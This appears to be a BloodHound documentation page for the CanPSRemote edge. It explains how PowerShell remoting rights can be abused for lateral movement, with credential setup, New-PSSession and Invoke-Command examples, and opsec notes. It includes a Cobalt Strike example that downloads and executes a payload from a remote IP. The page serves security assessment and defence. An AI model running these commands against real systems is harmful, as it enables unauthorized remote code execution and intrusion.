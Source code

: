 ---
title: CanPSRemote
description: "PS Session access allows you to enter an interactive session with the target computer. If authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges on the system."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


<Info>
**Note**

This edge does not guarantee privileged execution.
</Info>

## Abuse Info

Abuse of this privilege will require you to have interactive access with a system on the network.

A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the target computer if you are not running as that user. To do this in conjunction with New-PSSession, first create a PSCredential object (these examples comes from the PowerView help documentation):

```bash
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

Then use the New-PSSession command with the credential we just created:

```bash
$session = New-PSSession -ComputerName &lt;target computer name&gt; -Credential $Cred
```
This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just created

```bash
Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}
```

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

```bash
Disconnect-PSSession -Session $session
Remove-PSSession -Session $session
```
An example of running through this Cobalt Strike for lateral movement is as follows:

```bash
powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
-ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
Disconnect-PSSession -Session $session; Remove-PSSession -Session $session
```
## Opsec Considerations

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security mechanisms that make it much easier for defenders to see what’s going on with PowerShell in their network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

## Edge Schema

Source: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user), [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group), [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Destination: [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Traversable: **Yes**  

## References

* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7)
